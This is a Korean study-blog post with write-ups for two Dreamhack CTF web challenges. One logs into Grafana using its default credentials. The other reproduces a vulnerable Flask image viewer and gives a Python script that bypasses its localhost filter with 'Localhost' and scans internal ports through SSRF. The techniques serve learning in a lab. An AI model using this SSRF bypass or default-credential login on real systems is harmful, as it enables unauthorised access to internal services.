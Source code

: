 ```yaml
---
layout: default
title: Day70
nav_order: 1

parent: Last Project
grand_parent: P4C
---
```


##### 해당 게시글은 스스로 공부하기 위한 게시글입니다.

-----

마지막으로 받은 과제는 다 끝내기로 스스로에게 약속했다.

# > dreamhack.io: web-misconf-1

![image-20220627130557412](../img/image-20220627130557412.png)

## writeup

주어진 문제 파일에 도커파일이 있길래 빌드를 해야하나 고민하다가 일단 웹페이지에 접속을 했다. 

![image-20220627130636380](../img/image-20220627130636380.png)

로그인 정보가 하나도 없는 상태에서 로그인 페이지만 존재했고, 이 웹사이트를 대상으로 injection을 해야하나 생각했다.

아무런 힌트가 없는 상황이여서 개발자도구 탭을 이용해 소스를 계속 읽어보았지만 마땅한게 없었다.

다운로드 받은 문제 파일을 다시 확인해보다가 `default.ini`라는 파일을 발견했고 해당 파일에서 `DH{`를 검색해보았는데

![image-20220627130806055](../img/image-20220627130806055.png)

조직 이름이 플래그 값으로 설정되어 있다는 힌트만을 얻었다. 결국에는 로그인하여 계정 정보나 설정란에서 확인할 수 있다는 것인데 어떻게 로그인을 할지 막막하다.

댓글을 통해 힌트를 봤는데 다들 5초만에 풀었다,,, 이게 웹해킹 맞냐,,, 라는 반응이 많아서 나만 바보인가 생각 중이다.

Grafana에 대해 검색을 해보았는데 "다중 플랫폼 오픈 소스 분석 및 대화형 시각화 웹 애플리케이션" 이라고 한다. 음?

댓글을 좀 더 읽다가 "허술하다" 라는 말에 꽂혀서 마치 기본 아이디가 있나싶어 "grafana" 기본 계정을 검색했더니...

![image-20220627131036205](../img/image-20220627131036205.png)

이 정보로 로그인이 되었고 `~/admin/settings` 페이지에서 플래그를 확인할 수 있었다.

![image-20220627131117970](../img/image-20220627131117970.png)

나만 15분이나 걸렸다...

<br><br><br>

-----

# > dreamhack.io: web-ssrf

## writeup

```python
#!/usr/bin/python3
from flask import (
    Flask,
    request,
    render_template
)
import http.server
import threading
import requests
import os, random, base64
from urllib.parse import urlparse

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()  # Flag is here!!
except:
    FLAG = "[**FLAG**]"


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)


local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)


def run_local_server():
    local_server.serve_forever()


threading._start_new_thread(run_local_server, ())

app.run(host="0.0.0.0", port=8000, threaded=True)
```



SSRF는 Server Side Request Forgery 약자로 CSRF와는 달리 서버에 영향을 주는 공격이다. 

![img](https://miro.medium.com/max/1210/1*wfe2TbbRf76PYfrnxUsLDg.png)

이 그림이 CSRF와는 다른 SSRF 개념을 익히는데 도움이 되었다. CSRF는 클라이언트를 대상으로 요청을 변조하였다면, SSRF는 서버에게 다른 서버로 요청을 보내도록 만든 뒤에 응답 결과물을 공격자가 얻어내는 것이다.

이 개념에 충실해서 소스코드를 보면 `run_local_server()`를 통해 다른 내부 서버가 한 개 더 동작하고 있음을 알 수 있고, 해당 내부 서버에 존재하는 `/api/flag`에 대한 결과값을 뱉어내도록하면 될 것 같다. 사용자의 입력에 대한 검증이 첫 문자가 `/` 기호일 경우에만 `127.0.0.1:8000`으로 url을 전송하고, 그 외에는 사용자 입력에 따라 전송을 하지만 "localhost"나 "127.0.0.1"에 대한 문자를 필터링해두고 있다. 

이 문제를 풀기 위해서는 2가지 고려가 필요하겠다.

1. 내부 서버로 접근하기 위해 "localhost"와 "127.0.0.1" 필터링 우회하기
2. 열린 포트가 무엇인지 찾아내기

첫번째 고려사항은, 대소문자 구별이 없다는 점을 이용해 "Localhost"로도 우회할 수 있겠다.

두번째 고려사항은, 결과물이 존재할 때 내뱉은 error.png 정보를 이용해서 error.png가 아닌 경우에 해당 포트가 열려있음으로 판별하면 되겠다.

![image-20220630170539483](../img/image-20220630170539483.png)

해당 이미지가 뜨면 소스값이 `iVBOR...`로 시작하는 정보가 작성되니 해당 코드가 포함되면 실패, 포함되지 않으면 성공으로 해보자

```python
#!/usr/bin/python3
import requests
import sys

def my_request(url):
	target_url = f"http://host3.dreamhack.games:12160/img_viewer"	
	params = {
		"url": url
	}
	response = requests.post(target_url, data=params)	
	return response

def solve():
	for port in range(1500, 1801):
		url = f"http://Localhost:{port}/"
		response = my_request(url)
		if "iVBORw0KGgo" not in response.text:
			print(f"Finally I get port: {port}")
			break
		
	return port

if __name__ == "__main__":
	solve()

```

그리고 그 결과

![image-20220630172943483](../img/image-20220630172943483.png)

1758번 포트가 열려있다는 정보를 얻었고 직접 확인해보니

![image-20220630171801812](../img/image-20220630171801812.png)

다른 포트번호를 넣었을 때와는 달리 깨진 이미지 정보가 나왔다.

![image-20220630171744514](../img/image-20220630171744514.png)

![image-20220630171832009](../img/image-20220630171832009.png)

이렇게 풀어버렸당.
